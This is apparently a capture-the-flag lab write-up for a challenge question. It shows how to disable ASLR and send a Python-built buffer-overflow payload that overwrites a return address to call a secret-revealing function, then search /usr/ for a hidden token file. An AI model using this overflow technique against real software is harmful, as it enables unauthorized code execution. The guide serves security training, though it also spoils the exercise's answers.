 ## Question 3

*What is the token found by analyzing the suspicious file found on the User-A network client?*

Remember that the program only provides the secret when run on the client system, as specified in the challenge guide. If you attempt the overflow on your local system, you will not receive the secret, because it is dependent on a local file on the client. 

Therefore, the remaining steps should be run while you are SSH'd into the client.

Remember to disable ASLR first, if not already done:

```bash
echo "0" | sudo tee /proc/sys/kernel/randomize_va_space
```

There are several options for performing the overflow with this information. The easiest way is to use a simple Python print statement
while passing more data than the buffer can hold.

In this statement you are sending 40 bytes of data (forty 0's) and overwriting the return address of the `overflow_me` function with the return address of the `here_is_the_secret` function to force the program to give up the secret by overflowing its buffer. You must also provide the return address in little-endian format.

```bash
python3 -c "print('0'* 40 + '\x29\x52\x55\x55\x55\x55')" |
./[name_of_file]
```

![](./img/c03-image7.png)

The string will be unique to your gamespace. However, this string acts as a clue to finding the final token.

Now that you know the contents of the secret file, perform a file system search for this string, including hidden files, in the `/usr/` directory.

Something like `grep -rnw '/usr/' -e 'testing123'` would work, but will take a few minutes to find the file in question. Make sure to use your specific search string. You can ignore any permission errors, as the file in question will not be blocked.

![](./img/c03-image8.png)

Once you have the directory (`/usr/local/games`), you will find that there are 51 **.tkn** files hidden within (use `ls -lah` to see them, or check the **show hidden files** box if using the file browser). One of the .tkn files
has the same filename as the string that you found. This file contains the valid token for submission for Question 1.
